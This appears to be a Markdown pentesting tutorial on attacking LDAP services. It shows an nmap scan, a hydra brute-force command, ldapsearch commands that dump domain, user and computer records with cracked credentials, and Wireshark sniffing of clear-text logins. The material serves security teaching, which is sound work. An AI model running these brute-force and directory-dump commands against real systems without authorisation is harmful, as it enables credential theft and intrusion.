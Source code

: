 ```yaml
---
title:  Ldap Pentesting
date: 2022-06-03 05:49:33 +0800
categories: [Infrastructure Pentesting, Ldap]
tags: []  
---
```


# Ldap

The Lightweight Directory Access Protocol (LDAP) is a directory service protocol that runs on a layer above the TCP/IP stack. It provides a mechanism used to connect to, search, and modify Internet directories. It runs on port `389/tcp` by default.

# Enumeration

## Scanning With Nmap

We can use nmap to scan ldap protocol.

```bash

nmap -sT -sV -Pn -p 389 [target_host]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap0.png)

Above image shows ldap was running on port 389/tcp on our target. 

# Bruteforcing Ldap

## hydra

Using hydra , we can bruteforce credentials of ldap protocol.

```bash
hydra -l [username] -P [/path/to/password/wordlist] ldap2://[target_ip]
```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap1.png)


In the above image we were able to get a valid credential `krobot:kPassword@123`.

# Exploitation

## Dump all domain information

Since we got valid credentials, we can extract everything from our target domain using `ldapsearch`.

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap2.png)

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap3.png)

## Extract Users .

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'cn=users,dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap4.png)

## Extract Information Of A Specific User

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'cn=[target_user],cn=users,dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap5.png)

## Extract Computers

```bash

ldapsearch -x -D '[domain\username]' -w '[password]' -b 'cn=computers,dc=[subdomain],dc=[tld]' -H ldap://[target_ip]

```

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap6.png)

# Sniffing

The traffic sent to and received from ldap is not encrypted. We can leverage this to retrieve a clear-text credential.

## Wireshark

We can use wireshark to sniff ldap traffic.

![ldap](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/ldap8.png)

Analysing ldap traffic revealed the clear-text credential of ldap

# References

- [https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ldap/lightweight-directory-access-protocol-ldap-api](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ldap/lightweight-directory-access-protocol-ldap-api)
- [https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap)
